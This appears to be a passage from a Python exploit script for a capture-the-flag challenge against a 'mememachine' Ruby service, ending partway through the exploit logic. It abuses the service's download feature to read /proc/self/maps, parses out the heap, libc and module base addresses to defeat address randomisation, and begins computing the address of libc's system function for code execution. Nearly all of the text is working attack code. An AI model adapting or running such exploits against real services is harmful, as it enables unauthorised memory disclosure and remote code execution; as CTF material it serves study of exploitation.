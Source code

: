         try:
            data = s.recv(4096)
            if data:
                begin = time.time()
                buf += data
            else:
                time.sleep(.1)
        except:
            pass

    s.setblocking(1)
    return buf


def rt(delim):
    buf = ""
    while delim not in buf:
        buf += s.recv(1)
    return buf

def se(data):
    s.sendall(data)

def u64(d):
    return struct.unpack("<Q",d)[0]

def p64(d):
    return struct.pack("<Q", d)

def download(loc):
    se("p\n")
    rt("bro: ")
    se(base64.b64encode(loc) + "\n")
    ans = rt("[p]")[:-3].replace("ok heres ur receipt or w/e\n", "")
    return ans

def skeletal(what):
    se("m\n")
    se(base64.b64encode(what) + "\n")       # need to base64 encode, see ruby script

def pwn():
    # first download the memory mappings
    d = download("/proc/self/maps")

    libc_base = 0
    heap_base = 0
    ruby = 0

    # now extract the mappings
    for l in d.split("\n"):
        ll = l.split()
        if len(ll) != 6:
            continue
        if "[heap]" in ll[5]:
            heap_base = int(ll[0].split("-")[0], 16) # me no like regex :>
        elif "libc-2.19.so" in ll[5] and ll[1] == "r-xp":
            libc_base = int(ll[0].split("-")[0], 16)
        elif "mememachine.so" in ll[5] and ll[1] == "r-xp":
            meme_machine  = int(ll[0].split("-")[0], 16)
        elif "ruby" in ll[5] and ll[1] == "r-xp" and ruby == 0:
            ruby = int(ll[0].split("-")[0], 16)

    # calculate the offset of system
    libc_system= libc_base + 0x46640
